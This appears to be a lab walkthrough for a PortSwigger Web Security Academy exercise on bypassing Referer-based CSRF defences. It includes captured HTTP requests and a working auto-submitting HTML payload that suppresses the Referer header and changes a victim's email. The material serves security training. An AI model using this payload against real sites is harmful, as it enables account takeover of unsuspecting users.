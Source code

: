 # Lab: CSRF where Referer validation depends on header being present
# https://portswigger.net/web-security/learning-paths/csrf/csrf-validation-of-referer-depends-on-header-being-present/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present#

```bash
# Change your email to a@gmail.com and check change-email from burp.

POST /my-account/change-email HTTP/2
Host: 0adf00310468f8a28098bc0900b300b4.web-security-academy.net
Cookie: session=U9gdXUZHIymMXzamzFEL4J7bQXiSNAMa
Referer: https://0adf00310468f8a28098bc0900b300b4.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: https://0adf00310468f8a28098bc0900b300b4.web-security-academy.net

email=a%40gmail.com

```

```bash
# Send the request to the repeater.
# If you change the domain in the Referer HTTP header then the request is rejected. 

POST /my-account/change-email HTTP/2
Host: 0adf00310468f8a28098bc0900b300b4.web-security-academy.net
Cookie: session=U9gdXUZHIymMXzamzFEL4J7bQXiSNAMa

email=abcdefg%40gmail.com

#  Delete the Referer header entirely and observe that the request is now accepted. 

```

```bash
# Create payload and deliver to victim.

<html>
<head>
<meta name="referrer" content="no-referrer">
</head>
<body>
<form method="POST" action="https://0adf00310468f8a28098bc0900b300b4.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="var@gmail.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

